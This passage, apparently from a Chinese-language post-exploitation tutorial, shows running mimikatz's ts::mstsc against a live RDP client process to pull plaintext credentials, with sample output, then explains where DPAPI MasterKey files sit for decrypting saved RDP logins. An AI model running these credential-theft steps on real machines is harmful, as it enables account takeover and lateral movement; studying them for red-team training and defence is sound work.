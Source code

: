 情况二：在获取到目标主机控制权后，发现当前主机正在使用 RDP 客户端连接其它远程主机时。

可以从进程 mstsc.exe 中提取出所使用的用户明文凭据：

```console
PS C:\Windows\System32> tasklist | findstr "mstsc.exe"
mstsc.exe                     8272 Console                    1    228,148 K

PS C:\Windows\System32> .\mimikatz.exe 'privilege::debug' 'ts::mstsc' 'exit'

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # ts::mstsc
!!! Warning: false positives can be listed !!!

| PID 3060      mstsc.exe (module @ 0x00000000008DFBD0)

ServerName                                [wstring] 'xx.xx.xx.xx'
ServerFqdn                                [wstring] ''
UserSpecifiedServerName                   [wstring] 'xx.xx.xx.xx'
UserName                                  [wstring] 'Administrator'
Domain                                    [wstring] 'hostname_domain'
Password                                  [protect] 'Admin@123'
SmartCardReaderName                       [wstring] ''
PasswordContainsSCardPin                  [ bool  ] FALSE
ServerNameUsedForAuthentication           [wstring] 'xx.xx.xx.xx'
RDmiUsername                              [wstring] 'administrator'

mimikatz(commandline) # exit
Bye!
```

### 获取 RDP 历史连接凭证和解密密钥

当用户在使用 RDP 连接远程主机时，如图勾选了“记住我的凭据”，那么连接远程主机时所使用的用户凭证会被保存在用户机器上，方便用户下一次进行连接：

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/5a05a3c15b90e2f2.png)

远程桌面所保存的用户身份凭证使用 [DPAPI](https://en.wikipedia.org/wiki/Data_Protection_API) (Data Protection Application Programming Interface, 数据保护 API) 进行加密，这是 Windows 操作系统中用于数据保护的接口，如：WIFI 密码、VPN、IE 浏览器、Chrome 浏览器、Outlook 邮箱等应用都使用了该方式进行加密。

DPAPI 在进行数据加解密的操作时需要使用一个 MasterKey 密钥，每个用户都对应一个 MasterKey，而 MasterKey 使用用户密码进行加密。MasterKey 文件在操作系统中的位置：

- 用户 MasterKey 文件保存路径：`%APPDATA%\Microsoft\Protect\<User_SID>\<Master_Key_File>`；
- 系统 MasterKey 文件保存路径：`%WINDIR%\System32\Microsoft\Protect\S-1-5-18\User\<Master_Key_File>`。
